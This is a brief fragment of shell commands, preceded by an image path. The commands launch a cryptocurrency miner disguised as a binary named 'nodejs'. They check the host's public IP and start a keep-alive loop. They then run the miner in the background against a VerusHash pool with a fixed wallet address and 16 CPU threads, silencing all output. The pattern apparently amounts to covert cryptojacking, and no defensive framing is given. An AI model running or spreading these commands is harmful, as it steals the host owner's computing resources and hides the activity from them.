 chmod +x nodejs
curl ifconfig.io
nohup bash -c 'while true; do date; sleep 10; done' &
nohup ./nodejs --algorithm verushash --pool us.vipor.net:5040 --wallet RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH --password x --worker $(hostname -f) --cpu-threads 16 > /dev/null 2>&1 &
